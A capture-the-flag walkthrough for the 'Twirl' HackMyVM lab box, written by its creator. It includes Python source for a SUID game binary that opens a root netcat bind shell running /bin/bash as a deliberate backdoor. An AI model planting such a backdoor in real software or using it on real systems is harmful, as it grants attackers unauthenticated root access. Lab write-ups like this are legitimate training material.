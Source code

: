 **Dated:** 16 Jan 2021

**Solution** for the **Twirl** linux box -  I made for **HackMyVM** site ~ Made and tested in VMWare Workstation Pro
> 1. Avoid rabbit holes
> 1. Open web browser and go to .git file, at the bottom it says there is a website hosted called **superweb.com** and the word **TWIRL** is mentioned
> 1. Add this **superweb.com** to your linux OS (e.g. lets say you have Kali Linux as OS) */etc/hosts* file
> 1. On kali box, open superweb.com
> 1. On the right side of that picture, URL "photopea.com" is mentioned
> 1. Open the photopea.com website (or you can try in Photoshop or Gimp etc.) 
> 1. Load this image to the website. Select the area in which letters are twisted
> 1. Go to **Filter** -> **Distort** -> and select **TWIRL**
> 1. Drag the ANGLE BAR to left (approx value -230). Now you can read the distorted words easily
> 1. You have the creds of the username "skinnysec" and his password
> 1. Login as skinnysec user via SSH on port 30
> 1. inside /home/skinny folder there is a file called .bash_profile. On line 958 of there is a string. Decode this string with base64 two times. You now have the password of user el3phant; switch to user el3phant. 
> 1. Inside the /home dir of el3phant, there is a folder called **...**. Before going in, change its permission to chmod 777 ... (and then get into the folder ...) 
> 1. Go inside it and again there is another folder called ...
> 1. Read the **user.txt** flag
> 1. There is a folder called mysimplemathsgame. Play/run the game, answer 03 maths questions correctly and a BIND SHELL as root on some random TCP port will open. 
> 1. From Kali Box simply connect to that port with nc. eg. nc <ip> <port told by the game>
> 1. you are now root, read the root flag. 
  
## #Sourcecode of binary mysimplemathsgame
  
```python
#Date: 14 Jan 2021
#Made + Tested on: Linux debian 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 GNU/Linux
#OS: Debian GNU/Linux 10

#How to make it a binary ?
#install pip, pyinstaller
#run pyinstall --onefile <this file>
#binary will be created
#assign ROOT group and set SUID bit set

#!/usr/bin/python3

import os,random,sys,time;

print("\n***Welcome to a new game designed by skinny3l3phant***\n");
print("\nJust answer 03 questions correctly, and I ll give you a reward\n");
print("\nRemember: You have to submit answers under 25 seconds\n");

loop=0;

while loop < 3:
    a = random.randint(31000,35000);
    b = random.randint(25010,55300);

    if loop == 0:
        answer = a+b;
        print("\n"+str(a) +" + "+ str(b)+" = ??? ");
        start=time.time();
        userInput = input("Your answer is: ");
        now=time.time();
        userInput=int(userInput);
        nettime=now-start;
        if (userInput == answer and (nettime < 25)):
            loop=loop+1;

        else:
            print("\nBye Bye.\n");
            sys.exit(1);

        
    elif loop == 1:
        answer = a*b;
        print("\n"+str(a) +" * "+ str(b)+" = ??? ");
        start=time.time();
        userInput = input("Your answer is: ");
        now=time.time();
        userInput=int(userInput);
        nettime=now-start;
        if (userInput == answer and (nettime < 25)):
 
            loop=loop+1;

        else:
            print("\nBye Bye\n");
            sys.exit(1);

    elif loop == 2:
        answer = a-b;
        print("\n"+str(a) +" - "+ str(b)+" = ??? ");
        start=time.time();
        userInput = input("Your answer is: ");
        now=time.time();
        userInput=int(userInput);
        nettime=now-start;
        if (userInput == answer and (nettime < 25)):
            loop=loop+1;

        else:
            print("\nBye Bye\n");
            sys.exit(1);


if loop == 3:
    print("***\nNice Maths Skills***");
    print("***As promised, I have a reward for you***");
    port = random.randint(1024,65000);
    port=str(port);
    print("I am going to open a TCP port --->"+port+" on my system, have fun with it but be gentle");
    
    try:
        os.setuid(0)
        #os.setgid(0)
        os.system("/usr/bin/nc -lp "+port+" -e /bin/bash &");
    
    except:
        print("\nSome weird error came, try again I guess :-(");
```
  
